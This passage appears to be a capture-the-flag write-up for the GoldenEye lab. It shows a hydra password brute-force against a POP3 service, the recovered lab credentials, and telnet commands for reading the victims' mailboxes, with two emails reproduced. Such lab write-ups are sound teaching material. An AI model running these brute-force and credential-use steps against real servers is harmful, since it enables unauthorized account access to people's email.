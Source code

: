 `boris:InvincibleHack3r` are the login creds for this part of the site. we can login with these @ `/sev-home/`

Viewing the source of this gives us another user - `natalya`

We can use this username with hydra and rockyou to penetrate the SMTP server on port 25. Nevermind AUTH is disabled on the port 25, lets try the higher port pop3 servers. 

**I spent hours trying with rockyou to get anything but its too slow so i found fasttrack.txt works as an alternative**

- `hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://goldeneye.thm:55007` gives us natalyas email pass `natalya:bird`. Using the same we also find boris' `boris:secret1!`

We can login to the pop3 email server

1. `telnet goldeneye.thm 55007`
2. `USER boris`
3. `PASS secret1!`
4. check messages with `STAT` this command fives us the amount of messages and the size of the inbox
5. `LIST` will list all emails. Looks like we have 3 of them to check out. We can retrieve each message with `RETR`

- boris email 1

```
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id D9E47454B1
        for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
```

- boris email 2

```
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id C3F2B454B1
        for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
```
